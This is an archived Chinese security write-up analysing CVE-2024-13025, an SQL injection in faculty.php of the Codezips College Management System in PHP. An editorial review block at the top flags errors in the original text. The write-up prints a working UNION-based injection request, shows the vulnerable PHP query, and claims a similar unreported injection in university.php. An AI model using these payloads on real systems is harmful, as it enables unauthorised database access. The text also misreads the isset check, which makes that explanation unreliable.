









#  CVE-2024-13025-Codezips 大学管理系统 faculty.php sql 注入分析及拓展   

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Codezips College Management System PHP
- 本文讨论：CVE-2024-13025 faculty.php；university.php独立扩展线索
- 版本、权限与配置前提：带登录会话，book_name/book_author可控；未给源码commit/版本
- 资料类型：PHP SQL注入源码分析及扩展；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 误归安全设备，实际大学管理CMS
- isset(search_book)被解释成字段为空才进入，与代码相反
- HTTP请求所有头和正文粘成一行，不可直接发送；PHP示意缺完整上下文
- university.php 0day无披露时间/独立编号；绕过前端邮箱格式不等于代码执行
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- CVE范围、完整源码版本/权限和新增入口证据待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

 船山信安   2025-01-19 16:01  
  
##   
## Codezips  
  
里面有很多cms系统，其中的一个College Management System In PHP With Source Code存在sql注入漏洞。  
## 复现  
  
对源码进行下载登录。  
  
  
  
里面有很多远程js加载不出来但是不影响接口使用。  
  
对于/college-mgmt-php-master/Front-end/faculty.php接口进行测试。  
  
数据包为  
```http
POST /college-mgmt-php-master/Front-end/faculty.php HTTP/1.1Host: localhostSec-Fetch-Mode: navigateAccept-Language: zh-CN,zh;q=0.9Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36Cache-Control: max-age=0Origin: http://localhostAccept-Encoding: gzip, deflate, br, zstdContent-Type: application/x-www-form-urlencodedSec-Fetch-Dest: documentReferer: http://localhost/college-mgmt-php-master/Front-end/login.phpsec-ch-ua-mobile: ?0Cookie: PHPSESSID=40a20a299e19c127ad0ed71b0cf004cbSec-Fetch-User: ?1Sec-Fetch-Site: same-originUpgrade-Insecure-Requests: 1sec-ch-ua-platform: "Windows"Content-Length: 59book_name=x'+union+select+NULL,database(),NULL,NULL--+-&book_author=x&search_book=
```  
  
  
  
  
复现成功，即faculty.php下的book_name/book_author字段存在sql注入。  
## 源码分析  
  
  
```
<?php                  if(isset($_POST['search_book']))                  {                    $name=$_POST['book_name'];                    $author=$_POST['book_author'];                    $query = "SELECT * FROM book WHERE book_name = '$name' AND author = '$author'";                    $results = mysqli_query($db, $query);                    $row = mysqli_fetch_array($results);                   ?>
```  
  
在这里面先是判断了search_book字段是否为空，为空则引入book_name和book_author带到sql query里面。  
  
是一个非常经典的无过滤导致sql注入。  
  
CVE-2024-13025分析结束。  
## 0day  
  
经过代码审计，在university.php文件下存在与之前一模一样的漏洞，明显是之前漏洞挖掘者忽略的  
  
  
  
使用联合注入即可  
  
  
## 风险代码  
  
  
  
这段代码是visitor表插入的逻辑，也是页面登录用户的逻辑  
  
利用这个接口，可以绕过前端全部对于邮箱格式、密码长度等检测。属于风险代码。可以导致插入一些风险代码。  
  
  
  
可以看到插入成功  
  
  
  
此cve 是一个sql注入，同时此cms还有一个sql注入的0day是没有发现的，这里我代码审计进行了补充。同时也存在一定的风险代码问题，需要在代码审计时引起注意。  
  
  
【作者】：1726080508280144  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
